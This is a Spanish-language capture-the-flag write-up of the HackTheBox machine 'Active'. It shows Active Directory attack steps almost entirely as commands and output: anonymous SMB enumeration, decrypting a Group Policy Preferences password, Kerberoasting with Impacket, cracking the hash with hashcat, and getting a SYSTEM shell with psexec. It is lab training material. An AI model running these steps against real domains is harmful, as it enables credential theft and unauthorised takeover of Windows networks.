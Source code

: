 
---
title: "Active"
summary: "Active es una máquina de dificultad fácil a media, que cuenta con dos técnicas muy comunes para obtener privilegios dentro de un entorno de Active Directory. Esta máquina nos enseña sobre las Preferencias de Directivas de Grupo (GPP) de Windows y contraseñas y cómo abusar de ellas."
categories: ["Post","Blog",]
tags: ["post","hackthebox","windows"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-06

---

| Información de la máquina | |
| -------------------- | ------------ |
| **Plataforma** | HackTheBox |
| **Sistema operativo** | Windows |
| **Dificultad** | Fácil |
| **IP** | 10.10.10.100 |
- - -
## Enumeración

Comencemos la enumeración con `Nmap`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001 -sCV --min-rate 2000 -T5 -n -Pn 10.10.10.100 -oN ports

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-04 18:47:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-04T18:48:37
|_  start_date: 2025-01-04T18:21:40
|_clock-skew: -1s
```

Hay bastantes puertos abiertos. Podemos comenzar la enumeración comprobando si hay alguna información sobre los recursos compartidos **SMB**:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ smbclient -N -L \\10.10.10.100 

Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      

```

El recurso compartido _Replicación_ tiene información a la que podemos acceder:

```bash
smb: \> ls

  active.htb                          D        0  Sat Jul 21 00:37:44 2018
```

- - -
## Recopilación de credenciales
Descubrimos una contraseña en `Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml`.

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ cat Groups.xml 

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

El archivo **Groups.xml** se crea automáticamente en el recurso compartido `SYSVOL` cuando se crea una _Preferencia de directiva de grupo_. El archivo contiene información relacionada con los grupos, incluso contraseñas. Estas están cifradas con una clave privada de Microsoft, pero se publicó por accidente.

Esto es bastante antiguo (de alrededor de 2014), pero es un gran conocimiento, ya que si un sistema contiene archivos antiguos que contienen una contraseña cifrada a partir de una _Preferencia de directiva de grupo_, se puede descifrar con la herramienta `gpp-decrypt`.

```bash
┌──(s3n㉿kali)-[~]
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

Después de encontrar la contraseña para el usuario _SVC_TGS_, deberíamos echar un vistazo a los recursos compartidos a los que no pudimos acceder, como **Usuarios**, para verificar si obtuvimos algún privilegio sobre ellos.

```bash
┌──(s3n㉿kali)-[~]
└─$ smbclient \\\\10.10.10.100\\Users -W active.htb -U SVC_TGS 
Password for [ACTIVE.HTB\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 04:39:20 2018
  ..                                 DR        0  Sat Jul 21 04:39:20 2018
  Administrator                       D        0  Mon Jul 16 00:14:21 2018
  All Users                       DHSrn        0  Mon Jul 13 19:06:44 2009
  Default                           DHR        0  Mon Jul 13 20:38:21 2009
  Default User                    DHSrn        0  Mon Jul 13 19:06:44 2009
  desktop.ini                       AHS      174  Mon Jul 13 18:57:55 2009
  Public                             DR        0  Mon Jul 13 18:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 05:16:32 2018
```

Parece que funcionó. Enumeramos nuevamente pero no encontramos nada relevante.

>Podríamos reclamar la bandera de usuario en el directorio SVC_TGS/Desktop pero no lo haré, ya que no contaría en exámenes como OSCP, ya que se necesita un shell interactivo.

Con el usuario _SVC_TGS_ parece que no tenemos una manera de obtener un punto de apoyo en la máquina mientras intentaba usar RDP. Sin embargo, podemos continuar enumerando la red interna ya que tenemos credenciales válidas con este usuario.
- - -
## Kerberoasting
**Kerberoasting** es una técnica de post-explotación que podemos utilizar al evaluar entornos de Active Directory (AD). El objetivo es obtener el hash de contraseña de una cuenta de servicio asociada con un _Service Principal Name_ (SPN). Los SPN son atributos en AD que vinculan de forma única un servicio a una cuenta de usuario, lo que permite la autenticación Kerberos.

En este escenario, como usuarios de dominio autenticados, solicitamos un ticket de servicio Kerberos para un SPN. El controlador de dominio genera el ticket y lo cifra utilizando el hash NTLM de la contraseña de la cuenta de servicio vinculada al SPN. Luego se nos proporciona este ticket. En esta etapa, no necesitamos privilegios elevados, solo una cuenta de usuario de dominio válida para solicitar el ticket.

Una vez que recuperamos el ticket cifrado, podemos descifrarlo sin conexión utilizando herramientas como `Hashcat`. Si tenemos éxito, recuperamos la contraseña de texto simple de la cuenta de servicio.

Podemos intentar verificar los SPN de los usuarios con la herramienta `GetUserSPN` de Impacket:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon/Users_Share]
└─$ sudo impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 09:06:40.351723  2025-01-04 08:22:56.876969             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8
```

¡Genial! Ya lo tenemos. Ahora podemos intentar descifrar este hash con `hashcat`:

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8:Ticketmaster1968
```

Encontramos la contraseña del administrador con el valor **Ticketmaster1968**. Podemos intentar abusar de SMB para establecer un shell con `psexec`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ impacket-psexec Administrator@10.10.10.100        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file zOdNJqkf.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service ROhE on 10.10.10.100.....
[*] Starting service ROhE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Ahora podemos leer ambas flags!:

```powershell
C:\> type C:\Users\SVC_TGS\Desktop\user.txt  
40538eb1a29a0cef0b8d9a4d7a3a387f
```

```powershell
C:\> type C:\Users\Administrator\Desktop\root.txt
b8737ca7bc28f8b9dcce856e5226956d
```


